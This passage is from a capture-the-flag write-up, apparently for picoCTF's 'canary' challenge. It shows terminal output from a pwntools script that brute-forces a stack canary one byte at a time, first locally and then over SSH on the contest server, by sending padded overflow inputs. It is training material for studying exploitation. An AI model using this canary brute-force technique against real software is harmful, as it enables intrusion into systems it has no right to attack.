 ```bash
[*] Process '/home/kali/Desktop/pctf/canary/vuln' stopped with exit code -11 (SIGSEGV) (pid 35039)
Ok... Now Where's the Flag?

[+] Starting local process '/home/kali/Desktop/pctf/canary/vuln': pid 35042
[+] Receiving all data: Done (28B)
[*] Stopped process '/home/kali/Desktop/pctf/canary/vuln' (pid 35042)
Ok... Now Where's the Flag?

[+] Starting local process '/home/kali/Desktop/pctf/canary/vuln': pid 35045
[+] Receiving all data: Done (73B)
[*] Process '/home/kali/Desktop/pctf/canary/vuln' stopped with exit code 0 (pid 35045)
Ok... Now Where's the Flag?
'flag.txt' missing in the current directory!

Ok... Now Where's the Flag?
'flag.txt' missing in the current directory!
```

### 6. Run it on the server to win
I gotta modify my script to connect and run the binary over SSH, and then it gives the flag.
```bash
kali@kali:~/Desktop/pctf/canary$ python solve.py REMOTE
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] jib1337@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[*] '/home/kali/Desktop/pctf/canary/vuln'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Retrieving canary value...
[*] Trying byte \x00now (input length: 33)
[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3805172
[*] Sending: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00[*] *** Stack Smashing Detected *** : Canary Value Corrupt!
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3805172)
[*] Trying byte  now (input length: 33)
[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3805176
[*] Sending: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[*] *** Stack Smashing Detected *** : Canary Value Corrupt!
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3805176)
[*] Trying byte  now (input length: 33)
[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3805180
[*] Sending: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[*] *** Stack Smashing Detected *** : Canary Value Corrupt!
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3805180)
[*] Trying byte \x03now (input length: 33)
[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3805184
...
[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3805594
[*] Sending: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAL
[*] Ok... Now Where's the Flag?
[*] Stopped remote process 'vuln' on 2019shell1.picoctf.com (pid 3805594)
[*] Found canary byte: L
...
[+] Starting remote process 'vuln' on 2019shell1.picoctf.com: pid 3809804
[*] Sending: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALj
[*] Ok... Now Where's the Flag?
```